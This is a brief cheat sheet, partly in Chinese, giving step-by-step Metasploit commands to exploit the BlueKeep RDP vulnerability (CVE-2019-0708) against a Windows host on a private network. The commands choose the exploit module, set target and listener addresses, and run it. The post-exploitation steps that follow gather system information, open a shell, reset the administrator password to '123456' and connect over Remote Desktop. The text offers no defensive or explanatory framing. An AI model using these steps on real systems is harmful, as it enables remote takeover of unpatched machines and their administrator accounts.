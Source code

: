 # 3389-cve_2019_0708_bluekeep_rce
---

msfconsole

search 0708

use exploit/windows/rdp/cve_2019_0708_bluekeep_rce

show targets命令：set rhosts 192.168.0.106

set lhost 192.168.0.102

set target 4

run

---


sysinfo

ipconfig

?
：shell

chnp 65001

whoami

net user administrator 123456

mstsc
